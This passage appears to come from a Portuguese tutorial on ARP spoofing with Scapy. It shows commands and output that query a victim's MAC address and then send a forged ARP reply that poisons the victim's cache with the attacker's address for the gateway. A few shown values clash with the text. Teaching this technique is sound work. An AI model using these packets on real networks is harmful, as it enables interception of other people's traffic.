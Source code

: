 
Observe que o arp request faz um broadcast (```dst=ff:ff:ff:ff:ff:ff:ff```), carrega a operação 1 (```who-has```), com o hwdst (MAC address de destino) desconhecido e o ```pdst``` (IP de destino ) ```192.168.1```. Ou seja, quando enviado com o ```srp``` pergunta à todos qual é o MAC do ```192.168.1.1``` e aguarda uma resposta.

O gateway recebe essa request e envia uma reply que chega como retorno do ```srp``` (arpreply1). É possível perceber que o ```arpreply1``` carrega a operação 2 (is-at) e tem como ```hwsrc``` (MAC Address de onde saiu) ```c4:e9:84:9a:14:16```, que é justamente o MAC do gateway que queríamos.

* Vítima
```bash
>>> arprequest2 = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst = "192.168.1.101")
>>> arprequest2.show()
###[ Ethernet ]### 
  dst= ff:ff:ff:ff:ff:ff
  src= 28:56:5a:49:ff:67
  type= ARP
###[ ARP ]### 
     hwtype= 0x1
     ptype= IPv4
     hwlen= None
     plen= None
     op= who-has
     hwsrc= 28:56:5a:49:ff:67
     psrc= 192.168.1.103
     hwdst= 00:00:00:00:00:00
     pdst= 192.168.1.101

>>> arpreply2 = srp(arprequest2)
Begin emission:
Finished sending 1 packets.
*
Received 1 packets, got 1 answers, remaining 0 packets
>>> arpreply2[0][0][1]
(<<Ether  dst=28:56:5a:49:ff:67 src=c4:e9:84:9a:14:16 type=ARP |<ARP
hwtype=0x1 ptype=IPv4 hwlen=6 plen=4 op=is-at hwsrc=b4:2e:99:f4:b7:df
psrc=192.168.1.1 hwdst=28:56:5a:49:ff:67 pdst=192.168.1.103 |>>)
```

A mesma observação feita para o gateway vale para a vítima.
* 2º passo: “envenenar” o arp cache da vítima na linha do default gateway, preenchendo com o MAC address do atacante
* Solução: fake arp reply

```bash
>>> arppoison1 = ARP(op = 2, psrc = "192.168.1.1", pdst = "192.168.1.101", hwdst = "b4:2e:99:f4:b7:df")
>>> arppoison1.show()
###[ ARP ]### 
  hwtype= 0x1
  ptype= IPv4
  hwlen= None
  plen= None
  op= is-at
  hwsrc= 28:56:5a:49:ff:67
  psrc= 192.168.1.1
  hwdst= b4:2e:99:f4:b7:df
  pdst= 192.168.1.101

>>> send(arppoison1)
.
Sent 1 packets.
```
